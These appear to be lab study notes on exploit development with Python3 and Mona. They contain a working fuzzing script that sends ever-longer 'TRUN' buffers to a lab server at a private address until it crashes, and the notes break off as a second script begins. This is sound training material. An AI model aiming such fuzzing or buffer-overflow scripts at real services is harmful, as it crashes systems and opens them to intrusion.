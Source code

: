 Exploit development using Python3 and Mona

Friday, June 23, 2023

10:47 PM

 

Updated scripts with Python3

 

#!/usr/bin/python3

 

import sys, socket

from time import sleep

 

buffer = \"A\" \* 100

 

while True:

> try:
>
> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>
> s.connect((\'192.168.4.104\',9999))

 

> payload = \"TRUN /.:/\" + buffer

 

> s.send((payload.encode()))
>
> s.close()
>
> sleep(1)
>
> buffer = buffer + \"A\"\*100
>
> except:
>
> print (\"Fuzzing crashed at %s bytes\" % str(len(buffer)))
>
> sys.exit()

 

 

#!/usr/bin/python3

 

import sys, socket

from time import sleep

 